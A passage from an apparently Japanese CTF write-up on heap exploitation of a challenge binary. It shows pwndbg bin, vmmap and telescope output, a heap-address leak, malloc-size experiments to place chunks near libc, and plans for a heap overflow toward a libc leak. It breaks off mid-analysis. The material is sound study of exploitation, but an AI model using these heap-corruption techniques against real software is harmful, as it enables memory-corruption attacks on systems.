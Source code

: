 ```bash
0x55555555a2f0  0x0000000000000000      0x0000000000000000      ................
0x55555555a300  0x0000000000000000      0x0000000000000000      ................
pwndbg> bins
~~~
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x55555555a2d0 —▸ 0x7ffff7facce0 ◂— 0x55555555a2d0
smallbins
empty
largebins
empty
```
正確には不明だが、おそらく`largebins`などに振り分けられた際のfd_nextsizeなどが残っているようだ。
ヒープアドレスが手に入ったのでヒープベースアドレスを計算して用いることが可能となった。  
次にlibcアドレスをリークしたいが、現状の機能では難しい。  
ここで、`malloc`のみができるので0や膨大な数を確保してみる。  
すると、`0x21299`を`malloc`した際に確保される領域がヒープからlibcの近傍へ移動した。  
`0x21298`の場合  
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/hft
~~~
    0x55555555a000     0x55555559d000 rw-p    43000      0 [heap]
    0x7ffff7d90000     0x7ffff7d93000 rw-p     3000      0 [anon_7ffff7d90]
    0x7ffff7d93000     0x7ffff7dbb000 r--p    28000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/libc.so.6
~~~
```
`0x21299`の場合  
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x555555554000     0x555555555000 r--p     1000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/hft
~~~
    0x55555555a000     0x55555559d000 rw-p    43000      0 [heap]
    0x7ffff7d6e000     0x7ffff7d93000 rw-p    25000      0 [anon_7ffff7d6e]
    0x7ffff7d93000     0x7ffff7dbb000 r--p    28000      0 /mnt/c/Users/tsato/Downloads/DLLLLp/libc.so.6
~~~
```
この挙動でlibcの領域まで食い込んで確保すればアドレスリークが達成できると喜ぶが、`malloc`の時点で足りなければ新しい領域が確保されるため不可能であった。  
残った手段はヒープオーバーフローでの書き換えだが、ヒープのアドレスしかわからないため壊すことしかできない。  
うまく壊せそうなアドレスがあるか探すと、libcより前に何らかのヒープアドレスがある。  
```
pwndbg> telescope 0x7ffff7d6e000 20000
00:0000│    0x7ffff7d6e000 ◂— 0x0
01:0008│    0x7ffff7d6e008 ◂— 0x22002
02:0010│ r9 0x7ffff7d6e010 ◂— 0x21299
03:0018│    0x7ffff7d6e018 ◂— 0x0
... ↓       17618 skipped
44d6:226b0│    0x7ffff7d906b0 —▸ 0x7ffff7fad580 —▸ 0x7ffff7fa9820 —▸ 0x7ffff7f6d1d7 ◂— 0x636d656d5f5f0043 /* 'C' */
44d7:226b8│    0x7ffff7d906b8 —▸ 0x7ffff7fb5340 (_res) ◂— 0x0
44d8:226c0│    0x7ffff7d906c0 ◂— 0x0
44d9:226c8│    0x7ffff7d906c8 —▸ 0x7ffff7f514c0 ◂— 0x100000000
44da:226d0│    0x7ffff7d906d0 —▸ 0x7ffff7f51ac0 ◂— 0x100000000
44db:226d8│    0x7ffff7d906d8 —▸ 0x7ffff7f523c0 ◂— 0x2000200020002
44dc:226e0│    0x7ffff7d906e0 ◂— 0x0
... ↓       2 skipped
```